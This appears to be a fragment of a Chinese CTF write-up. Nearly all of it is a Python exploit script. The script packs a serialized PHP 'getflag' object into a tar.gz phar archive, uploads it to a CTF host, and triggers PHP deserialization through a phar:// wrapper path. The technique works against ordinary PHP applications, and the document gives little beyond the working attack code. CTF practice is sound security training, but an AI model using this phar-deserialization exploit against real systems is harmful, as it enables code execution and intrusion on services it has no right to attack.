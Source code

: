 ```python
```

## 脚本1 -- 通过tar抛弃签名

```python
import shutil
import tarfile
import os.path
import gzip
import requests


def make_tarfile(output_filename, source_dir):
    os.system(f'tar -cf app.tar {source_dir}')
    # with tarfile.open(output_filename, "w:gz") as tar:   # 打ctf用system或py2压tar, py3压的tar打不通, 而且py2压的没明文，不需要再加成gzip
    #     tar.add(source_dir, arcname=os.path.basename(source_dir))



def make_gzipfile(output_filename, source_file):
    content = open(source_file, 'rb').read()
    f = gzip.open(output_filename, 'wb')
    f.write(content)
    f.close()


def init():
    for f in ['app.tar', 'app.tar.gz', '.phar']:
        try:
            shutil.rmtree(f)
        except OSError:
            pass
    os.mkdir('.phar')
    open('.phar/.metadata', 'w').write("""a:1:{i:0;O:7:"getflag":0:{};i:0;N;}""")


if __name__ == "__main__":
    init()
    make_tarfile('app.tar', '.phar')
    make_gzipfile('app.tar.gz', 'app.tar')

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"w";}'
    data = {"0": open('app.tar.gz', 'rb').read()}
    requests.post(url, data=data)

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"r";}'
    data = {"0": 'phar://tmp/a.txt'}
    requests.post(url, data=data)
```
